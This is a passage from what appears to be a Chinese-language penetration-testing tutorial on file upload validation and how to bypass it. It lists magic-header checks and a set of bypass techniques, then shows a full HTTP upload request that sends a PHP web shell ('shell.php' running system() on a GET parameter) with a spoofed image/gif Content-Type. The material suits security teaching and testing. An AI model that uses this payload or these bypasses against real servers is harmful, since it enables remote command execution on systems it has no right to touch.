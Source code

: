 可以看到代码对上传文件的文件类型进行了判断，如果不是图片类型，返回错误。

**1.2.2 文件内容头校验**

可以通过自己写正则匹配，判断文件头内容是否符合要求，这里举几个常见的文件头对应关系：
-  .JPEG;.JPE;.JPG，”JPGGraphic File”
-  .gif，”GIF 89A”
-  .zip，”Zip Compressed”
-  .doc;.xls;.xlt;.ppt;.apr，”MS Compound Document v1 or Lotus Approach APRfile”


## 0x02 文件上传绕过校验姿势


- 客户端绕过（抓包改包）
- 服务端绕过
    - 文件类型
    - 文件头
    - 文件后缀名
- HTTP不安全方法(PUT方法)
- 配合文件包含漏洞绕过
- 配合服务器解析漏洞绕过
- CMS、编辑器漏洞绕过
- 配合操作系统文件命名规则绕过
- 配合其他规则绕过
- WAF绕过

### 2.1 客户端绕过

可以利用burp抓包改包，先上传一个gif类型的木马，然后通过burp将其改为asp/php/jsp后缀名即可。

### 2.2 服务端绕过

**2.2.1 文件类型绕过**

我们可以通过抓包，将content-type字段改为image/gif

```
POST /upload.php HTTP/1.1
TE: deflate,gzip;q=0.3
Connection: TE, close
Host: localhost
User-Agent: libwww-perl/5.803
Content-Type: multipart/form-data; boundary=xYzZY
Content-Length: 155
--xYzZY
Content-Disposition: form-data; name="userfile"; filename="shell.php"
Content-Type: image/gif (原为 Content-Type: text/plain)
<?php system($_GET['command']);?>
--xYzZY-
```

**2.2.2 文件头绕过**

在木马内容基础上再加了一些文件信息，有点像下面的结构
